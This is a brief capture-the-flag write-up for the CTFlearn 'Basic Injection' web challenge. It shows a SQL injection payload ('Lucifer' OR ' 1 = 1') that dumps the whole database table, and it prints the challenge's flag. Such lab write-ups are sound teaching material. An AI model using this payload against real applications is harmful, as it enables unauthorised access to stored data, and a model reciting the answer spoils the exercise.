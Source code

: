 <h1> Basic Injection </h1>

Problem Statement: <br>
See if you can leak the whole database using what you know about SQL Injections. <br>

Step-1: <br>
After visiting the given URL <a>https://web.ctflearn.com/web4/</a>, you will be asked to input something and then submit it.

Step-2: <br>
Inspect the input text box. <br>
You will find the line given below. <br>
<code> Try some names like Hiroki, Noah, Luke </code>

Step-3: <br>
You will find no flag even after submitting the above names. Now try basic SQL payloads in the existing database. <br>
I submitted the input <code> Lucifer' OR ' 1 = 1 </code> and got the following output: <br>
<code>
Name: Luke <br>
Data: I made this problem. <br>
Name: Alec <br>
Data: Steam boys. <br>
Name: Jalen <br>
Data: Pump that iron fool. <br>
Name: Eric <br>
Data: I make cars. <br>
Name: Sam <br>
Data: Thinks he knows SQL. <br>
Name: fl4g__giv3r <br>
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs} <br>
Name: snoutpop <br>
Data: jowls <br>
Name: Chunbucket <br>
Data: @datboiiii <br>
</code>

Step-4:
The desired flag <code>CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}</code> can be found in line number 12 of the above output.
